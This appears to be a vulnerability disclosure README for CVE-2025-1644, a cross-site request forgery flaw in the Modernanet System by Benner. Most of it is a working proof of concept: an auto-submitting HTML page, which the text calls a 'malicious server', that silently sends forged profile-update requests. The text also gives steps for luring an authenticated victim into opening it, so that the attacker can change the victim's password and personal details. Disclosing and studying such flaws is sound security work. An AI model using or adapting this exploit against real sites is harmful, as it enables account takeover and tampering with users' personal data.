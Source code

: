 # CVE-2025-1644
The Modernanet System by Benner is vulnerable to Cross-Site Request Forgery.

**Affected Version: < 1.1.1**

**OBS: The malicius request only works with true data!**


## POC

This vulnerability resides in the /DadosPessoais/SG_Gravar page in Various personal data fields (e.g., DADOS_PESSOAIS_USER_NAME, DADOS_PESSOAIS_CPF, etc.),

It's possible to manipulate the request and trick authenticated users into unknowingly performing action.

In this case, it is possible to carry out an attack, which, if done correctly, 
can change the password of any authenticated user on the website.


## First Step

We have to create a malicious server, to lure the victim.

---


## Malicious server

**pay attention, in the value fields that have 'VALID INFORMATION', it is absolutely necessary to enter true information, as the backend performs validations, if it is not inserted, this will generate an error and it won't work**

```html
<!DOCTYPE html>
<html>
<head>
<title>PoC CSRF</title>
</head>
<body onload="document.getElementById('csrfForm').submit()">
  <form id="csrfForm" method="GET" action="https://*.modernanet.com.br/DadosPessoais/SG_Gravar">
    <input type="hidden" name="idItAg" value="">
    <input type="hidden" name="idItAgPagto" value="">
    <input type="hidden" name="DADOS_PESSOAIS_USER_NAME" value="email@GMAIL.COM">
    <input type="hidden" name="DADOS_PESSOAIS_USER_PASSWORD" value="">
    <input type="hidden" name="DADOS_PESSOAIS_USER_PASSWORD_RETYPE" value="">
    <input type="hidden" name="DADOS_PESSOAIS_IDPESFIS" value="119642">
    <input type="hidden" name="DADOS_PESSOAIS_IDPESPLA" value="204354">
    <input type="hidden" name="DADOS_PESSOAIS_CPF" value="A VALID CPF">
    <input type="hidden" name="DADOS_PESSOAIS_DATANASC_DATE" value="10/10/2000">
    <input type="hidden" name="DADOS_PESSOAIS_DATANASC_TIME" value="">
    <input type="hidden" name="DADOS_PESSOAIS_NOME" value="TEST">
    <input type="hidden" name="DADOS_PESSOAIS_SEXO" value="F">
    <input type="hidden" name="DADOS_PESSOAIS_EMPRESA" value="TEST">
    <input type="hidden" name="DADOS_PESSOAIS_RG" value="111111111111">
    <input type="hidden" name="DADOS_PESSOAIS_CONVENIO" value="11">
    <input type="hidden" name="DADOS_PESSOAIS_PLANO" value="5">
    <input type="hidden" name="DADOS_PESSOAIS_CODIGO_CONVENIO" value="">
    <input type="hidden" name="DADOS_PESSOAIS_PAI" value="">
    <input type="hidden" name="DADOS_PESSOAIS_MAE" value="TEST">
    <input type="hidden" name="DADOS_PESSOAIS_ENDER_ID" value="0">
    <input type="hidden" name="DADOS_PESSOAIS_TIPOEND" value="1">
    <input type="hidden" name="txtDADOS_PESSOAIS_CEP" value="A VALID ZIP CODE">
    <input type="hidden" name="txtDADOS_PESSOAIS_CIDADE" value="CITY">
    <input type="hidden" name="txtDADOS_PESSOAIS_BAIRRO" value="neighborhood">
    <input type="hidden" name="DADOS_PESSOAIS_LOGRADOURO" value="STREET">
    <input type="hidden" name="DADOS_PESSOAIS_NUMERO" value="">
    <input type="hidden" name="DADOS_PESSOAIS_COMPLEMENTO" value="">
    <input type="hidden" name="DADOS_PESSOAIS_QTDE_TELEFONES" value="2">
    <input type="hidden" name="DADOS_PESSOAIS_FONE_ID_0" value="138552">
    <input type="hidden" name="DADOS_PESSOAIS_TIPOFONE_0" value="3">
    <input type="hidden" name="DADOS_PESSOAIS_PREFIXO_0" value="12">
    <input type="hidden" name="DADOS_PESSOAIS_NUMFONE_0" value="12313-1231">
    <input type="hidden" name="DADOS_PESSOAIS_FONE_ID_1" value="138551">
    <input type="hidden" name="DADOS_PESSOAIS_TIPOFONE_1" value="1">
    <input type="hidden" name="DADOS_PESSOAIS_PREFIXO_1" value="18">
    <input type="hidden" name="DADOS_PESSOAIS_NUMFONE_1" value="1081-8923">
    <input type="hidden" name="DADOS_PESSOAIS_INT_ID" value="33675">
    <input type="hidden" name="DADOS_PESSOAIS_INT_ENDERECO" value="email@GMAIL.COM">
    <input type="hidden" name="DADOS_PESSOAIS_INT_PERM" value="S">
    <input type="hidden" name="DADOS_PESSOAIS_INT_PREFER" value="[object Object]">
  </form>
</body>
</html>
```

---

## Second Step

We have to send the link of our server to the victim, **the victim have to be authenticated**.
When the victim clicks in the link, their info it's automatically changed to known info.

end.


## Full url
https://IP/DadosPessoais/SG_Gravar

---

## Reference

https://modernasistemas.com.br/
